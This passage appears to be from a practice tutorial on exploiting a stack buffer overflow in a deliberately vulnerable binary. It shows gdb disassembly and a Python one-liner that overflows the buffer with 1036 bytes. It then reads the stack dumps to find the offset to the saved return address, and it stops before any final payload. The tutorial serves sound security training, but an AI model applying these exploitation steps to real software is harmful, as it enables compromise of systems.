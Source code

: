 Aha, `0x8048320 <strcpy@plt>` and `0x8048330 <system@plt>` 

First of what is that *@plt* you might ask, well it stands for "Procedure Linkage Table" but because explaining this is out of scope i'll put some references below if you want to know more about it in detail.

Another intersting thing to notice is the size of the buffer, 4th line : `0x08048452 <+6>:     sub    esp,0x410` dont ask me how i know this.

Now everything here is represented in hex (base-16) so in order to find out the size of the buffer convert the number "410" base-16 to base-10.

Allright, since we know our binary is vulnerable to a buffer overflow it is time to find out how many bytes it requires to overwrite the return address

```
(gdb) r $(python -c 'print "\x41" * 1036') 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Buffer-Overflow-Practise/return-oriented-programming/rop $(python -c 'print "\x41" * 1036')

Program received signal SIGSEGV, Segmentation fault.
0xb7e99476 in _setjmp () from /lib/i386-linux-gnu/i686/cmov/libc.so.6
```
We filled the buffer with 1036 bytes and it segfaulted, we didn't overwrite EIP yet, lets check where EIP points to.

```
Stack level 0, frame at 0xbffff880:
 eip = 0xb7e99476 in _setjmp; saved eip 0xb7e85e0b
 called by frame at 0x41414149
 Arglist at 0xbffff878, args: 
 Locals at 0xbffff878, Previous frame's sp is 0xbffff880
 Saved registers:
  eip at 0xbffff87c
 ```
 
 eip at **0xbffff87c** , saved eip **0xb7e85e0b**, right so, lets take a look at the stack: 
 
```
(gdb) x/10xw $esp
0xbffff87c:     0xb7e85e0b      0x414140fd      0xbffff924      0xbffff930
0xbffff88c:     0xb7fe0860      0xb7ff6be1      0xffffffff      0xb7ffeff4
0xbffff89c:     0x0804826f      0x00000001
(gdb) x/10xw $esp - 4
0xbffff878:     0x41414141      0xb7e85e0b      0x414140fd      0xbffff924
0xbffff888:     0xbffff930      0xb7fe0860      0xb7ff6be1      0xffffffff
0xbffff898:     0xb7ffeff4      0x0804826f
```

We can see here that in order to overwrite the return address we need additional 4 byte but that's the *sweet* spot because later on the return address would be a function of our choosing and that's where things are getting interesting ;) 

Anyway lets proceed.
